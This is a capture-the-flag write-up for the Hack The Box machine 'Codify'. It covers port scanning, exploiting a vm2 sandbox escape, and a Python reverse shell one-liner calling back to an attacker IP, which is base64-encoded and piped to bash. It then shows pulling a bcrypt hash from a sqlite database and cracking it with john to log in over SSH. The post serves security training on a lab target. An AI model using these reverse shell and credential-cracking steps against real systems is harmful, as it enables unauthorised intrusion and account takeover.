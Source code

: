 ![Codify](https://github.com/amalcew/htb-writeups/assets/73908014/b693185b-6355-4761-9f5c-902ed6282a52)

## Reconnaissance & port scanning

Initial port scan revealed open ports 22, 80 and 3000 used by some node.js instance

```bash
# Nmap 7.94SVN scan initiated Wed Mar  6 11:57:07 2024 as: nmap -v -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.239
Nmap scan report for codify.htb (10.10.11.239)
Host is up, received syn-ack (0.066s latency).
Scanned at 2024-03-06 11:57:08 CET for 19s
Not shown: 992 closed tcp ports (conn-refused), 5 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Codify
3000/tcp open  http    syn-ack Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Mar  6 11:57:27 2024 -- 1 IP address (1 host up) scanned in 19.26 seconds
```

After adding proper entry to `/etc/hosts` the webpage inspection was performed.

![01-codify](https://github.com/amalcew/htb-writeups/assets/73908014/8f00da85-db83-44fc-a081-b835f9aac67d)

![02-about](https://github.com/amalcew/htb-writeups/assets/73908014/e4ad795f-31e1-4be9-ac83-5bcd2f132ca6)

Apperantly, the machine hosts node.js sandbox using `vm2` library. Following the link we can discover, that the webpage leaks the version of the library, which is `3.9.16`.

Searching for potential vulnerabilities, I've came across [CVE-2023-29199](https://nvd.nist.gov/vuln/detail/CVE-2023-29199) that allows the threat actor to escape the vm2 sandbox by abusing the exception sanitization.
This behaviour was described in the [paper](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) that also explains simple proof of concept.

Checking the POC on tested website we can confirm, that the website is indeed vulnerable:

![03-rce](https://github.com/amalcew/htb-writeups/assets/73908014/d81c1d77-be96-4d5f-8f13-5824712f1ed3)

## Initial foothold

Because the website is vulnerable to remote code execution, next step is to gain initial foothold. 
The exploitation process was straightforward, as it required using proper reverse shell. In case of this machine, reverse shell was achieved using Python:

```bash
> cat reverse_shell.sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

> cat reverse_shell.sh | base64 -w 0
cHl0aG9u ... SNIP ... Il0pOycK
```

To execute this shell we need to decode it on the machine and execute, which makes the final payload:

```bash
echo cHl0aG9u ... SNIP ... Il0pOycK | base64 -d | /bin/bash;
```

Executing the payload on the machine we receive the connection on selected port:

![04-reverse_shell](https://github.com/amalcew/htb-writeups/assets/73908014/6a83a909-e7c8-4ea2-86c1-58f134d6167a)

```bash
> nc -lnvp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.239] 34166
bash: cannot set terminal process group (1254): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

## Escalating privileges and obtaining user flag

After stabilising the shell, I've conducted the analysis of the environment. Searching for potential vector of privilege escalation, I've found the directory `/var/www` used by the node.js sandbox. Folder `contact` contained some interesting positions:

```bash
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db
```

The most interesting file is the `tickets.db` that look like a Sqlite3 database. Source code stored in `index.js` confirms that this is indeed Sqlite3:

```bash
svc@codify:/var/www/contact$ head index.js 
const express = require('express');
const sqlite3 = require('sqlite3').verbose();
const bcrypt = require('bcryptjs');
const session = require('express-session');
const app = express();
const port = 3001;

// create a new database and table
const db = new sqlite3.Database('tickets.db');
db.run('CREATE TABLE IF NOT EXISTS tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)');
```

The database contains hashed password of `joshua` user:

```bash
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$***************************************************p/Zw2
```

Using `john` to crack the hash we obtain the password:

```bash
└─$ john hash --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s********1       (?)    
1g 0:00:00:25 DONE (2024-03-06 18:00) 0.03921g/s 53.64p/s 53.64c/s 53.64C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

With password I've been able to ssh into the machine and read the user flag:

```bash
└─$ ssh joshua@10.10.11.239
joshua@10.10.11.239's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar  6 05:06:04 PM UTC 2024

  System load:                      0.21630859375
  Usage of /:                       64.5% of 6.50GB
  Memory usage:                     29%
  Swap usage:                       0%
  Processes:                        253
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Mar  6 17:06:05 2024 from xx.xx.xx.xx
joshua@codify:~$ cat user.txt 
1e****************************94
```
